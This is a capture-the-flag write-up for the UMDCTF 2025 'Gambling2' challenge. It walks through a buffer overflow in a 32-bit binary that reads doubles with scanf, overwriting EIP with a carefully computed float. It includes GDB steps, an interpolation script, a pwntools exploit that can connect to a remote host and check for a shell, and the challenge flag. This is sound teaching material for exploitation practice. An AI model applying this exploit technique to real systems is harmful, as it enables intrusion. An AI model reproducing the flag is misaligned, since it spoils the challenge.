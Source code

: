 # Gambling2 – UMDCTF 2025 Writeup

## Challenge Overview
We are provided with the following files:
- `Dockerfile`
- `gambling` binary
- Source code (`gambling.c`)
- `Makefile`


![image](https://github.com/user-attachments/assets/53bc5413-86d4-4dd7-ac4d-72972889fcda)


Our goal is to exploit the program and retrieve the flag.

---
# Reconnaissance
### Step 1: Checking Binary Protections
First, we run `checksec` on the provided binary to understand what security mechanisms are enabled:

```bash
checksec --file=./gambling
```

![image](https://github.com/user-attachments/assets/abc3e88f-1a49-41c1-9e43-8ef6c4b8ddc2)


**Observations**:
- **No Stack Canary**: Buffer overflows won't be immediately detected by stack protections.
- **NX (Non-Executable Stack)**: We can't inject and execute shellcode directly on the stack.
- **PIE Disabled**: Executable addresses are fixed, making ROP and direct address overwrites easier.

### Step 2: Reviewing the Source Code
Upon inspecting the `gambling.c` source file, we observe how the input is handled and what functions are available.
![image](https://github.com/user-attachments/assets/6d9d5463-3f66-4ca2-a504-c9f5f2a7332e)


**Key Takeaways**:
- The program reads user input using `scanf("%lf", &var)`, expecting **doubles** (floating-point numbers).
- The presence of a `print_money()` function which could be useful for exploitation.

---

# Exploitation
### Step 3: Finding the Target Function
Using GDB (`gdb ./gambling`), we disassemble `print_money` to find its memory address:
```bash
disas print_money
```

![image](https://github.com/user-attachments/assets/5b4d1cb1-70c7-48cd-ade8-e6ee7aa7a95a)

- `print_money` is located at address `0x080492c0`.


Since PIE is disabled, this address remains **static** during program execution.

---

### Step 4: Strategy Outline
Given what we know:
- The buffer overflow occurs through reading **floating-point inputs**.
- We aim to overwrite **EIP** (the instruction pointer) to jump to `print_money`.

**Challenges**:
- Directly writing a memory address as a floating-point number is not trivial because of **IEEE-754 encoding** for doubles.

Thus, we take an **empirical approach**:
- Send various floating-point values.
- Observe how the EIP changes.
- Use interpolation to find the exact floating-point value that overwrites EIP with the address of `print_money`.

---

### Step 5: Local Testing and Float Interpolation
By testing various floats locally, we observed the relationship between input floats and resulting EIP:

|Input Float|Resulting EIP|
|:--|:--|
|`0.000...004869`|`0x8049400`|
|`0.000...00487`|`0x8049515`|

**Conclusion**:
- Larger float → Lower address.
- Smaller float → Higher address.

We needed to precisely land on `0x80492c0`.

---

### Step 6: Calculating the Exact Float
Instead of bruteforcing, we calculate it using linear interpolation:
```python
float1 = 0.000...004869
float2 = 0.000...00487
eip1 = 0x8049400
eip2 = 0x8049515
eip_target = 0x80492c0

delta_eip = eip2 - eip1
delta_float = float2 - float1

ratio = delta_float / delta_eip
offset_eip = eip_target - eip1
offset_float = offset_eip * ratio

float_target = float1 + offset_float

print(f"[+] Exact float needed: {float_target:.400f}")
```

This gives us the exact float value required to control EIP.

Result:
```
0.0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000048678447653429606926762156265085299415604106647379534502196788585758286387045593904549590297537598720611109479754048472644682294918
```

---

### Step 7: Building the Exploit Script

We can now automate the exploitation using `pwntools`:
```python
from pwn import *
import struct
import argparse

context.binary = './gambling'
context.arch = 'i386'
context.log_level = 'warn'

# Argument parsing
parser = argparse.ArgumentParser()
parser.add_argument('--host', type=str, help='Remote host')
parser.add_argument('--port', type=int, help='Remote port')
args = parser.parse_args()

# Exact float string to send
exact_float_str = "0.0000...48672644682294918"

def start_process():
    if args.host and args.port:
        return remote(args.host, args.port)
    else:
        return process('./gambling')

if __name__ == "__main__":
    p = start_process()
    p.recvuntil(b'Enter your lucky numbers: ')

    # Send the payload
    payload = "0 0 0 0 0 0 " + exact_float_str
    print(f"[+] Sending payload: {payload}")
    p.sendline(payload.encode())

    # Check if we get a shell
    p.sendline(b'id')
    print(p.recvline())
    result = p.recvline()
    if b'uid' in result:
        print("[+] SUCCESS: Shell obtained!")
        print(result)
    p.close()
```

---

# Final Result
We run the script, connect to the service, send the payload, and get the shell:

![image](https://github.com/user-attachments/assets/62764f39-37a7-4e05-9228-612335cb2f1e)


Running the payload, we successfully capture the flag:
```
UMDCTF{99_percent_of_pwners_quit_before_they_get_a_shell_congrats_on_being_the_1_percent}
```

---

